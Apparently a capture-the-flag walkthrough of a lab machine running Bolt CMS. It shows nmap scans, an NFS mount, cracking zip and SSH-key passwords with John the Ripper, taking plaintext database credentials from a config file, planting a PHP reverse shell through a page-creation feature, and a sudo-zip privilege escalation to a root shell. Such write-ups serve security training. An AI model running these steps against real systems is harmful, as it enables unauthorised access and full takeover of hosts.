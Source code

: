 # Scanning & Enumeration

## Nmap

Scan active hosts on the subnet:
![[Pasted image 20240307100746.png]]

Nmap all ports:
```bash
# Nmap 7.94SVN scan initiated Thu Mar  7 10:08:53 2024 as: nmap -p- -oN dev_all.nmap 10.0.0.15
Nmap scan report for 10.0.0.15
Host is up (0.00055s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
8080/tcp  open  http-proxy
42633/tcp open  unknown
43983/tcp open  unknown
53367/tcp open  unknown
56559/tcp open  unknown

# Nmap done at Thu Mar  7 10:08:58 2024 -- 1 IP address (1 host up) scanned in 4.97 seconds
```

Nmap open ports:
```bash
# Nmap 7.94SVN scan initiated Thu Mar  7 10:10:11 2024 as: nmap -p 22,80,111,2049,8080,42633,43983,53367,56559 -sV -sC -oN dev_open.nmap 10.0.0.15
Nmap scan report for 10.0.0.15
Host is up (0.00044s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Bolt - Installation error
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      35323/udp   mountd
|   100005  1,2,3      39409/tcp6  mountd
|   100005  1,2,3      43983/tcp   mountd
|   100005  1,2,3      52065/udp6  mountd
|   100021  1,3,4      38599/tcp6  nlockmgr
|   100021  1,3,4      42633/tcp   nlockmgr
|   100021  1,3,4      50841/udp6  nlockmgr
|   100021  1,3,4      52663/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
|_http-server-header: Apache/2.4.38 (Debian)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
42633/tcp open  nlockmgr 1-4 (RPC #100021)
43983/tcp open  mountd   1-3 (RPC #100005)
53367/tcp open  mountd   1-3 (RPC #100005)
56559/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Mar  7 10:10:18 2024 -- 1 IP address (1 host up) scanned in 7.30 seconds
```

## HTTP

Port 80:
![[Pasted image 20240307103425.png]]

Enumerate directories on port 80:
![[Pasted image 20240307113522.png]]


Port 8080:
![[Pasted image 20240307103406.png]]

![[Pasted image 20240307124446.png]]

Enumerate /dev:
![[Pasted image 20240307125848.png]]
## NFS

>[!Info]
>Network File System (NFS) is a distributed file system protocol that allows you to share remote directories over a network. With NFS, you can mount remote directories on your system and work with the remote files as if they were local files.
>
>On Linux and UNIX operating systems, you can use the `mount` command to mount a shared NFS directory on a particular mount point in the local directory tree.

With `showmount` we can show info from the NFS server. From manpage:
`showmount - show mount information for an NFS server`

Create directory *nfs_mnt* and mount the nfs root file system:
```bash
sudo mount -t nfs 10.0.0.15:/ nfs_mnt
```
In the directory *nfs_mnt/srv/nfs* is a file named *save.zip*.
Unfortunately the zip file is password protected:
![[Pasted image 20240307110454.png]]

# Exploitation

Crack zip file password with John the Ripper.
We first need to copy the file from the NFS to our local file system.
Create a hash file of our password protected zip file:
```bash
zip2john save.zip > hash.txt
```
![[Pasted image 20240307111015.png]]
Then crack the hashes:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Success:
![[Pasted image 20240307111139.png]]
=> PW: java101

Now we are able to unzip the file with the password "java101":
![[Pasted image 20240307111223.png]]

todo.txt:
![[Pasted image 20240307111602.png]]

Try to connect to SSH with private rsa key as user *jp*:
![[Pasted image 20240307111628.png]]
Unfortunately jp has a private key password.

Brute force private key password with john.
First convert the private key to a hashable format:
```bash
ssh2john id_rsa > id_rsa.hash
```

![[Pasted image 20240307112303.png]]

Crack password:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```
Unsuccessful..

## HTTP

Download the directory */app* on port 80:
```bash
wget -r -np -R "index.html*" http://10.0.0.15/app/
```
Args:
`-r`: recursive
`-np`: no parents (don't go upwards)
`-R "index.html*"`: reject/avoid downloading the auto-generated *index.html* files

The config file */app/config/config.yml* contains:
Database credentials:
```yaml
database:
    driver: sqlite
    databasename: bolt
    username: bolt
    password: I_love_java
```
Allowed formats for file upload:
```yaml
# Define the file types (extensions to be exact) that are acceptable for upload
# in either 'file' fields or through the 'files' screen. Note that certain file-
# types are never acceptable, even if they are in this list. These types are
# never allowed: sh, asp, cgi, php, php3, ph3, php4, ph4, php5, ph5, phtm, phtml
accept_file_types: [ twig, html, js, css, scss, gif, jpg, jpeg, png, ico, zip, tgz, txt, md, doc, docx, pdf, epub, xls, xlsx, ppt, pptx, mp3, ogg, wav, m4a, mp4, m4v, ogv, wmv, avi, webm, svg]
```

Navigate /dev on port 8080:
![[Pasted image 20240307124543.png]]

If the page from GET parameter *p* does not exist, we are able to create the page:
![[Pasted image 20240307130012.png]]

We are going to use a PHP one liner reverse shell from: https://gist.github.com/rshipp/eee36684db07d234c1cc
![[Pasted image 20240307130212.png]]

Navigating to dev/pages/ shows us the available pages:
![[Pasted image 20240307130240.png]]

Upon navigating to *revshell.php* we should get a reverse shell on our netcat listener:
![[Pasted image 20240307130349.png]]

Listing the /home folder we see that there is the user *jeanpaul* on the system:
![[Pasted image 20240307130810.png]]

Try to connect to SSH as "jeanpaul":
The password "I_love_java" from */app/config/config.yml* works!
![[Pasted image 20240307130640.png]]
SSH with id_rsa
User: jeanpaul
PW: I_love_java

## Privesc

Listing the contents of .bash_history shows that it got deleted almost fully :)
But we get a hint with "sudo -l". If we execute that command, we can see that jeanpaul can run */usr/bin/zip* as root user:
![[Pasted image 20240307131028.png]]

https://gtfobins.github.io/gtfobins/zip/
Create a file *privesc.sh* and add the lines from the gtfobins url:
```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

Make the file executable and enjoy the root shell :)
![[Pasted image 20240307131615.png]]

# Official solution

There is also a file inclusion vulnerability:
![[Pasted image 20240307133844.png]]

zip privesc. root flag:
![[Pasted image 20240307134258.png]]